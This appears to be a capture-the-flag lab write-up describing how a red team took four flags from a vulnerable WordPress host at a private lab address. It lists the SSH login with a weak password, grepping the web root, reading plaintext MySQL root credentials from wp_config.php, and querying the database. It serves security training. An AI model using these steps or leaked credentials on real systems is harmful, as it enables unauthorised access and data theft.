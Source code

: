 
### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d

    - **Exploit Used**
      - Exploit: Weak password for user michael/ open SSH port, no SSH key set.
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + cd /var/www
	      + grep -ER flag1
![](flag1-grep.JPG)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Exploit: Weak password for user michael/ open SSH port, no SSH key set.
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + cd /var/www
	      + cat flag2.txt
	      
	      ![](flag2.JPG)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Exploit: Root credentials (not hashed) for the mysql database were saved in /var/www/html/wp_config.php
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + nano /var/www/html/wp_config.php
	      + mysql -u root -p wordpress (password: R@v3nSecurity)
			- mysql > show databases;
			 - use wordpress
			 - show tables;
			 - select * from wp_posts;
			
			![](wp-config.php.JPG)